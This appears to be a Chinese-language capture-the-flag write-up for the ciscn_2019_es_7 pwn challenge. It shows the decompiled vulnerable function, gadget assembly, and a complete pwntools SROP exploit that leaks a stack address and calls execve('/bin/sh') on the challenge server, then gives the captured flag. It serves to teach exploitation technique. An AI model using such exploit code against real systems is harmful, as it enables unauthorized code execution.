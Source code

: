 # ciscn_2019_es_7

[题目地址](https://buuoj.cn/challenges#ciscn_2019_es_7)

新知识点：[srop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

基本没开什么东西。不过srop我之前从来没见过，看了[wp](https://blog.csdn.net/m0_57754423/article/details/123233030)才知道这是最简单和经典的srop。

main函数里只调用了vuln，那就直接看vuln吧。

```c
signed __int64 vuln()
{
  signed __int64 v0; // rax
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  v0 = sys_read(0, buf, 0x400uLL);
  return sys_write(1u, buf, 0x30uLL);
}
```

vuln里就调用了2个函数，结果出了2个问题。read明显栈溢出，write多打印了十几个字节，buf长度只有16却打印了0x30。配合read的栈溢出，我们先用一些填充填满buf，然后跟上一个栈上的地址。这样后面write打印时就能打印出那个栈上的运行地址，从而计算将来需要的偏移。

gadgets函数要看汇编才能看出东西。

```
                             undefined gadgets()
             undefined         AL:1           <RETURN>
                             gadgets                                         XREF[3]:     Entry Point(*), 004005e0, 
                                                                                          00400680(*)  
        004004d6 55              PUSH       RBP
        004004d7 48 89 e5        MOV        RBP,RSP
        004004da 48 c7 c0        MOV        RAX,0xf
                 0f 00 00 00
        004004e1 c3              RET
        004004e2 48 c7 c0        MOV        RAX,0x3b
                 3b 00 00 00
        004004e9 c3              RET
        004004ea 90              NOP
        004004eb 5d              POP        RBP
        004004ec c3              RET

```

最开始给的ctf wiki链接里讲得很详细了，直接看wp。虽然srop相较平常的rop payload更为繁琐，但是pwntools已经集成了工具[SigreturnFrame](https://docs.pwntools.com/en/stable/rop/srop.html)。另一个更加详细的讲解参照这篇[wp](https://blog.csdn.net/mcmuyanga/article/details/112509274)。

```python
from pwn import *
 
context(arch='amd64', os='linux', log_level='debug')
 
file_name = './es_7'
 
debug = 1
if debug:
    r = remote('node4.buuoj.cn', 28068)
else:
    r = process(file_name)
 
 
def dbg():
    gdb.attach(r)
 
vuln = 0x04004ED
 
p1 = b'a' * 0x10 + p64(vuln)   #泄露地址，顺便获得执行漏洞的第二次机会
r.sendline(p1)
stack_addr = u64(r.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success('stack_addr = ' + hex(stack_addr))
 
#buf_addr = stack_addr - 0x128
buf_addr = stack_addr - 0x118   #泄露地址是为了找到buf_addr，也就是存着/bin/sh的地址。偏移值通过调试得出
success('buf_addr = ' + hex(buf_addr))
 
syscall_ret = 0x400517   #srop必须要一个syscall
sigret = 0x4004DA  #srop必须要sigreturn，不过把rax设置为0xf再syscall也是一样的效果，这里便是MOV RAX,0xf的gadget
 
sigframe = SigreturnFrame()  #构造Signal Frame。
sigframe.rax = constants.SYS_execve
sigframe.rdi = buf_addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

p1 = b'/bin/sh' + b'\x00' * (0x1 + 0x8)  #这里正好16个字节，填充完buf
p1 += p64(sigret) + p64(syscall_ret) + bytes(sigframe)  #srop公式，sigret+syscall_ret+sigfram
 
r.send(p1)
 
r.interactive()
```

## Flag
> flag{b4e76e8e-e500-47bf-9e79-9f2494a737fc}